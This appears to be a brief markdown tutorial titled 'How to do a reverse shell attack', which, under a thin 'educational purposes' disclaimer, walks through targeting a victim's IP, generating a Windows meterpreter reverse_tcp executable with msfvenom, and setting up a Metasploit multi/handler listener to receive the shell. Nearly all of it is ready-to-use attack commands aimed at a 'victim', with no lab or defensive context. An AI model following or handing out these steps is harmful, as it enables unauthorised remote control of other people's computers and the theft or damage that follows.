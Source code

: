# How to do a reverse shell attack

Write-up of how to do a reverse shell attack to any type of device, but Apple devices.

**¡¡DISCLAIMER:** 
		**I'm doing this only for educational purposes.**
		**I'm not responsible of any illegal uses.**
		**The bad use of this Write-up may cause damage to the victim!!**

Before starting, we need to get our victim's IP to do this type of attack
1. **Check if the victim's IP is up.**
	`ping [IP]`


3. **Create a folder with a basic name and get into that folder.**
	`mkdir [folder-name] && cd [folder-name]`


5. **On the folder created previously execute the command below:**
	`msfvenom -p windows/meterpreter/reverse_tcp LHOST=[YOUR-IP] LPORT=5555 -f exe > path/to/the/folder/of/step/2/[name].exe`


7. **Open metasploit and execute this command:** 
	`use exploit/multi/handler`


9. **Once executed the previous command, set-up the payload, in this case meterpreter -- reverse_tcp, for that execute the command below:**
	`set payload windows/meterpreter/reverse_tcp`


11. **When the command before get executed, introduce the necessary data to create the reverse shell connection, in this case these are the commands:**
	`set LHOST (YOUR IP)`
	`set LPORT 5555`


13. **Finally, execute the command below to start listening to possible reverse  shell connections.**
	`exploit`

